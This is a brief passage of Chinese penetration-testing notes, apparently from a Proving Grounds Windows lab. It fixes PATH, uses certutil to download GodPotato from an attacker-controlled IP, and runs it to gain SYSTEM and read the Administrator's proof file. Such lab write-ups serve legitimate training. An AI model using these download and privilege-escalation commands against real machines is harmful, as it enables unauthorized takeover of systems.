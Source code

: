 切换目录后发现很多命令无法使用，修复环境变量后可以使用powershell

```
set PATH=%PATH%;C:\windows\system32;C:\windows;C:\windows\System32\Wbem;C:\windows\System32\WindowsPowerShell\v1.0\;C:\windows\System32\OpenSSH\;C:\Program Files\dotnet\
```

上传土豆（试了很多最后GodPotato-NET4.exe可以

```
certutil -split -urlcache -f http://192.168.45.161:90/potato/GodPotato-NET4.exe C:\\Users\\tony\\GodPotato.exe
```

使用GodPotato成功提权，拿到proof

```
.\GodPotato.exe -cmd "cmd /c type \Users\Administrator\Desktop\proof.txt"
```

![image-20250307135132475](./PG_win.assets/image-20250307135132475.png)

## Kevin

